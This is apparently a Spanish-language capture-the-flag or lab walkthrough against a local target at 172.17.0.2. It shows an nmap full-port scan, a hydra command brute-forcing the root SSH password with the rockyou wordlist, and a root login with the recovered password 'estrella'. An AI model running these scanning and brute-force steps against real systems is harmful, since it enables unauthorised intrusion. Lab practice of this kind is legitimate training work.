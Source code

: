 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Ahora vamos a intentar realizar un ataque de fuerza bruta para poder ver el usuario y las credenciales del servicio ssh.
```
hydra -l root /usr/share/wordlists/rockyou.txt
```
![alt text](image-1.png)

Una vez tenemos las credenciales, vamos a entrar al servidor mediante el servicio ssh.
```
ssh root@172.17.0.2
password: estrella
```
![alt text](image-2.png)